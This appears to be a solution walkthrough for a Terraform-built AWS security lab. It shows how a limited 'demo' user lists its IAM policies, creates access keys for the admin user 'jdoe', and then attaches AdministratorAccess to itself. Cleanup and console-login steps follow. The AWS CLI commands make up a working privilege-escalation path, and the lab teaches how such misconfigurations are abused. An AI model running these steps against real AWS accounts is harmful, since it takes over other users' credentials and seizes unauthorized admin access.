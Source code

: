# Solutions / Walk through

Lets start off by viewing what permissions are attached to our user.

Run the following commands while authenticated as demo.

```sh
aws iam list-attached-user-policies --user-name demo

aws iam list-user-policies --user-name demo
```

We have already seen what ***consolePassword*** does, lets look what ***updateAccessKey*** does.

```sh
aws iam get-user-policy --user-name demo --policy-name updateAccessKey
```

```json
{
    "Action": [
        "iam:DeleteAccessKey",
        "iam:GetAccessKeyLastUsed",
        "iam:UpdateAccessKey",
        "iam:CreateAccessKey",
        "iam:ListAccessKeys"
    ],
    "Effect": "Allow",
    "Resource": "*"
}
```

It looks like the permission ***updateAccessKey*** grants us access to create and modify aws access keys.

Lets try to create an access key on another user.

```sh
aws iam list-users
```

Lets look more into the **jdoe** user.

```sh
aws iam get-user --user-name jdoe
```

```json
{
    "Path": "/admin/",
    "UserName": "jdoe",
    "UserId": "AIDAZ6IIT5XUV62LQOTF3",
    "Arn": "arn:aws:iam::683454754281:user/admin/jdoe",
    "CreateDate": "2022-02-19T17:29:22+00:00"
}
```

```sh
aws iam list-attached-user-policies --user-name jdoe
```

Look like they have admin access, lets see if we can create an access key for them.

```sh
aws iam list-access-keys --user-name jdoe

aws iam create-access-key --user-name jdoe | cat
```

Copy the outputs that look like similar to the following and past them into a new terminal shell.

```sh
# AccessKeyId
export AWS_ACCESS_KEY_ID=XXXXXXXXXX

# SecretAccessKey
export AWS_SECRET_ACCESS_KEY=YYYYYYYYYYYYYYYYY
```

Since they have admin we can give ourself admin as well.

```sh
aws iam attach-user-policy --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --user-name demo
```

Our user now has full iam permissions, lets give ourself administrative permissions.

```sh
aws iam list-attached-user-policies --user-name demo
```

The demo user now has administrator permissions in this aws account. ◻

## Cleanup

Lets remove the policies we attached and then let terraform do the rest.

```sh
aws iam detach-user-policy --user-name demo --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

## AWS Console

All of the following can be done in the web console as well.

Run the following command.

```sh
aws iam create-login-profile --user-name demo --password 'My!User1Login8P@ssword'
```

Navigate to [console.aws.amazon.com](console.aws.amazon.com) choose IAM login, account id is in the terraform output [*account_id*], username is **demo** and password is **My!User1Login8P@ssword**
